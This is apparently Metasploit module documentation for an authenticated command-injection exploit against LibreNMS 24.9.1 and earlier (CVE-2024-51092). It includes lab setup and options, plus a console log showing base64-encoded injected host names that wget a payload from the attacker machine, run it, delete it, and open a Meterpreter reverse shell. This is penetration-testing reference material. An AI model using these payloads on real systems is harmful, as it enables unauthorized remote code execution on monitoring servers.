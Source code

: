 ## Vulnerable Application

An authenticated attacker can create dangerous directory names on the system and
alter sensitive configuration parameters through the web portal.
Those two defects combined then allows to inject arbitrary OS commands inside shell_exec() calls,
thus achieving arbitrary code execution.

The vulnerability affects:

    * LibreNMS <= 24.9.1

This module was successfully tested on:

    * LibreNMS 24.9.1 installed on Ubuntu 22.04


### Installation

1. Follow the [official instructions](https://docs.librenms.org/Installation/Install-LibreNMS/).
After git clone, change version: `git checkout tags/24.9.1`.

2. Comment out the last line in `/etc/cron.d/librenms`:
`19 0 * * * librenms /opt/librenms/daily.sh >> /dev/null 2>&1`.
Otherwise, the version will be updated to the latest, causing the exploit to fail.


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/librenms_authenticated_rce_cve_2024_51092`
4. Do: `run lhost=<lhost> rhost=<rhost> username=<username> password=<password>`
5. (Optional) Do: `php artisan device:poll all` on the victim machine or wait up to 5 minutes (default cron setting)
6. You should get a meterpreter


## Options
### USERNAME (required)
User name for LibreNMS.

### PASSWORD (required)
Password for LibreNMS.

### PATH (required)
LibreNMS installed location. Default is `/opt/librenms`.

### WAIT (required)
Wait time (seconds) for cron to poll the device. Default is `30`.

### RETRY (required)
Maximum wait time: WAIT x RETRY (seconds). Default is `11`.


## Scenarios
```
msf6 > use exploit/linux/http/librenms_authenticated_rce_cve_2024_51092
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/librenms_authenticated_rce_cve_2024_51092) > options

Module options (exploit/linux/http/librenms_authenticated_rce_cve_2024_51092):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password for LibreNMS
   PATH      /opt/librenms    yes       LibreNMS installed location
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRY     11               yes       Maximum wait time: WAIT x RETRY (seconds)
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                   yes       User name for LibreNMS
   VHOST                      no        HTTP server virtual host
   WAIT      30               yes       Wait time (seconds) for cron to poll the device


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      UGYxnLuWa        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/librenms_authenticated_rce_cve_2024_51092) > run lhost=192.168.56.1 rhost=192.168.56.17 username=librenms password=librenms
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. LibreNMS detected.
[*] Successfully logged into LibreNMS. Storing credentials...
[*] Added host: 'VJl;echo d2dldCAtcU8gLi9YV0xDWVVlVFcgaHR0cDovLzE5Mi4xNjguNTYuMTo4MDgwL0ctOGY4bmtvSDBkVFpHUHNOdlMyM2c=|base64 -d|bash;#'
[*] Actual payload: wget -qO ./XWLCYUeTW http://192.168.56.1:8080/G-8f8nkoH0dTZGPsNvS23g
[*] Added host: 'siF;echo Y2htb2QgK3ggLi9YV0xDWVVlVFc=|base64 -d|bash;#'
[*] Actual payload: chmod +x ./XWLCYUeTW
[*] Added host: 'Dd0;echo Li9YV0xDWVVlVFcmc2xlZXAgMw==|base64 -d|bash;#'
[*] Actual payload: ./XWLCYUeTW&sleep 3
[*] Added host: 'vPR;echo cm0gLXJmIC4vWFdMQ1lVZVRX|base64 -d|bash;#'
[*] Actual payload: rm -rf ./XWLCYUeTW
[*] [1/11] Waiting 30 seconds for cron to poll the device...
[*] [2/11] Waiting 30 seconds for cron to poll the device...
[*] [3/11] Waiting 30 seconds for cron to poll the device...
[*] Sending stage (3045380 bytes) to 192.168.56.17
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:45034) at 2025-01-13 10:42:03 +0900
[*] Reset snmpget to default.
[*] Deleted device: 226
[*] Deleted device: 227
[*] Deleted device: 228
[*] Deleted device: 229

meterpreter > getuid
Server username: librenms
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-50-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
